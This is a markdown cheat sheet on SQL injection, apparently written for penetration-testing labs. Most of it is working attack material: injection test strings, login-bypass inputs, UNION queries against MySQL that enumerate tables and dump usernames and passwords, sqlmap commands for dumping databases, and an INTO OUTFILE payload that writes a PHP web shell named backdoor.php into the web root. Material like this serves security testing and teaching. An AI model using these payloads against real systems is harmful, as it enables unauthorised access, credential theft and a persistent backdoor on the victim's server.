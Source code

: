 # SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```
### POST parameters
You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a `'` at the end, like `lang=en'`.

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration
The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inj.php?id=1 union all select 1,2,3,@@version,5
```
You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:
```
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```
Get the current user:
```
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```
See all tables:
```
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```
Get column names for a specified table: 
```
http://ip/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```
Get usernames and passwords (0x3a means `:`):
```
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```
You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root: 
```
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
I suspect you could inject a full reverse shell in there too...

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```
It may not run unless you specify the database type.

Get the databases: 
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```
Get the tables in a database:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```
Get the columns in a table:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```
Dump a table:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```
If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:
```
sqlmap -r request.txt
```
If you just need to pass a cookie:
```
sqlmap -u "http://[host]/inject.php" --cookie "PHPSESSID=foobar"
```
## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
* [SQLmap tutorial](https://www.binarytides.com/sqlmap-hacking-tutorial/)
